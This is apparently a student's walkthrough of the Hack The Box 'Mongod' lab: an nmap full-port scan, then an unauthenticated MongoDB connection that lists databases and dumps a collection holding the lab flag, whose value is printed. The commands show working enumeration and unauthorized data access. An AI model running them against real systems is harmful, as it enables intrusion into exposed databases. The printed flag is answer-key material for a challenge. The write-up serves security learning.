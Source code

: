 
# Mongod
---
## Getting Started
---
Use command to set Target IP
```bash
IP='10.129.34.15' ; echo $IP
```

Use command to set Target IP
```bash
HIP="$(ifconfig tun0  | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -Eo '([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1')" ; echo $HIP

```
---
## Enumeration
---
### NMAP
---
Nmap Command Ran
```bash
nmap -p- --min-rate=1000 -sV $IP | copy
```

>-p- : This flag scans for all TCP ports ranging from 0-65535  
-sV : Attempts to determine the version of the service running on a port  
--min-rate : This is used to specify the minimum number of packets that Nmap should  
send per second; it speeds up the scan as the number goes higher

Results
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 16:56 EDT
Warning: 10.129.34.15 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.34.15
Host is up (0.026s latency).
Not shown: 65438 closed tcp ports (conn-refused), 95 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.22 seconds

```

**Findings**
Port 2701 is running Service mongodb MongoDB  3.6.8


---
## Foothold
Down load mongodb
```bash
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
```
uncompress it
```bash
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```
cd /bin
```bash
┌──(kali㉿kali)-[~/…/Study/HackTheBox/Tier0/Mongod]
└─$ cd mongodb-linux-x86_64-3.4.7/bin

```
Run 
```bash 
./mongo mongodb://$IP:2701
```

```bash
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use sensitive_information
switched to db sensitive_information
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use sensitive_information
switched to db sensitive_information
> show collections
flag
> db.flag.find().pretty();
{
        "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
        "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
> 
```


---
## Flags
db.flag.find().pretty();
```bash
1b6e6fb359e7c40241b6d431427ba6ea
```


---
## Tags
---
#mongodb